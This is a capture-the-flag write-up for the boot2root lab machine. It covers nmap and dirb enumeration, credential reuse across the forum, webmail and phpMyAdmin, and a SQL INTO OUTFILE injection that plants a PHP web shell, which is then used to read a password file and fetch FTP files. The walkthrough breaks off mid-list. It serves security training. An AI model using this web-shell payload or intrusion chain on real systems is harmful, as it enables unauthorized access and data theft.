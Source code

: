 # *Write Up 1*

## Init
Installation of a Parrot Security ISO
>[Parrot](https://www.parrotsec.org/download/_)

We have to use some tools during the process so we use a VM with already some tools installed.

## Enumerate
To start, we need to list all the services which run on the machine.

First, use `nmap` to list active ports and the correspondants services.

```
➜  boot2root git:(main) nmap -sV 192.168.56.105
Not shown: 994 closed ports
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 2.0.8 or later
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap       Dovecot imapd
443/tcp open  ssl/http   Apache httpd 2.2.22
993/tcp open  ssl/imaps?
```
We can see there is a `http server` who runs on port `443`

![image](https://github.com/JoLMG42/boot2root/assets/94530285/a6a099ac-39a0-4ee4-bd7d-5a0131762458)

We can use `dirb` on Parrot examine roads of the server

```
┌─[user@parrot]─[~]
└──╼ $dirb https://192.168.56.101
 ==> DIRECTORY: https://192.168.56.101/forum/
 ==> DIRECTORY: https://192.168.56.101/phpmyadmin/
 ==> DIRECTORY: https://192.168.56.101/webmail/
```

When we try to access `phpmyadmin` and `webmail`, we need a `login` and a `password`, so go on forum for the moment.

![image](https://github.com/JoLMG42/boot2root/assets/94530285/f0a3b0d2-f0a2-43de-aa4d-e5ba1f7c90e3)

We see a `post` about `Probleme login ?` by a user named lmezard

In this post we found a log about a connection to a service and we found a password of lmezard.

```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```

So try to login on the forum with these logs:
>login: `lmezard` password: `!q\]Ej?*5K5cy*AJ`

Youhou we are connected.

Now, we find an email in the informations section of lmezard,

![image](https://github.com/JoLMG42/boot2root/assets/94530285/d683c07d-224b-489d-a523-c678d4c3074d)

So go on the webmail service, try to log with our logs:

>login: `laurie@borntosec.net` password: `!q\]Ej?*5K5cy*AJ`

In the receive mail section, we have this mail,

![image](https://github.com/JoLMG42/boot2root/assets/94530285/c7bf327c-9d7a-4eee-84c2-3856d628b92a)

So go on phpmyadmin,

>login: `root` password: `Fg-'kKXBj87E:aJ$`

Now we have access to the database and we have a SQL page where we can improve sql injections:

https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/

![image](https://github.com/JoLMG42/boot2root/assets/94530285/5b4d943c-0e27-4cbf-8198-715e9ab78d36)

>sqli: `SELECT 1, '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/forum/templates_c/cmd.php' #`


Now if we target this url: `https://192.168.56.101/forum/templates_c/cmd.php?cmd=`, we can execute every commands on the machine

If we execute `ls /home` we can see a directory named LOOKATME,

![image](https://github.com/JoLMG42/boot2root/assets/94530285/f223cbe0-2207-466e-ae17-5bd8896d4015)

After dig in, we found a file password, lets cat it,

>https://192.168.56.101/forum/templates_c/cmd.php?cmd=cat%20/home/LOOKATME/password

>login: `lmezard` password `G!@M6f4Eatau{sF"`

After try some service with these logs, we found we can connect to FTP with it and we see two files, lets get it,


```
➜  ~ ftp lmezard@192.168.56.101
Connected to 192.168.56.101.
220 Welcome on this server
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||61451|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp> get README
local: README remote: README
229 Entering Extended Passive Mode (|||14650|).
150 Opening BINARY mode data connection for README (96 bytes).
100% |***************************************************************************|    96      118.52 KiB/s    00:00 ETA
226 Transfer complete.
96 bytes received in 00:00 (56.03 KiB/s)
ftp> get fun
local: fun remote: fun
229 Entering Extended Passive Mode (|||53956|).
150 Opening BINARY mode data connection for fun (808960 bytes).
100% |***************************************************************************|   790 KiB   26.64 MiB/s    00:00 ETA
226 Transfer complete.
808960 bytes received in 00:00 (25.62 MiB/s)
```

The README file says: `Complete this little challenge and use the result as password for user 'laurie' to login in ssh`.

So we have file fun:
1. examine informations about the file:
   ```
   ➜  ~ file fun
   fun: POSIX tar archive (GNU)
   ```
2. extract files:
   ```
   ➜  ~ tar -xvf fun
   ft_fun/
   ft_fun/C4D03.pcap
   ft_fun/GKGEP.pcap
   ft_fun/A5GPY.pcap
   ft_fun/K8SEB.pcap
   ft_fun/PFG98.pcap
   ...
   ...
   
   ```
3. 





